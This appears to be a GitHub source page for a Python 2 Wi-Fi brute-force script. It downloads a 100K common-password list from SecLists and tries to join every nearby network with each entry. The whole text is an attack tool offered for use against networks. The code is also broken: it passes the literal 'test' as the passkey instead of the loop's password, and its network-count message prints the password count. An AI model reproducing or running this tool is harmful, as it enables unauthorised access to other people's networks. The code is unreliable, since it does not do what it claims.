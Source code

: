# Wifi-Brustforce-attack-python-code

#!/usr/bin/env python
# -*- coding: utf-8 -*-
import sys
import urllib2

from wifi import Cell, Scheme, exceptions

# need `sudo` to show all networks
def start():




	# download most used passwords on github.com and build a dict
	print("Fetch top 100K most used passwords on Github...")
	url = "https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/xato-net-10-million-passwords-100000.txt"
	response = urllib2.urlopen( url )
	txt = response.read()
	passwords = txt.splitlines()

	# get networks and print stats
	networks = Cell.all('wlan0')
	nb_loops =  len(passwords)*len(networks)
	print("{} networks founded. The programs will loop {} times!!".format( 
		len(passwords) , nb_loops ))

	# begin to loop
	nb_test = 0

	for password in passwords:

		for cell in networks:

				try:
					scheme = Scheme.for_cell('wlan0', 'home', cell, 'test')
					scheme.activate()
					print("Connect to {} with `{}` passkey works!!".format(cell, 'test'))
					sys.exit(0)
				except exceptions.ConnectionError as e:
					pass
				finally:
					nb_test += 1

				sys.stdout.write('\r{} / {}'.format( nb_test, nb_loops ))
				sys.stdout.flush()

	print("you are not lucky :'(")
		
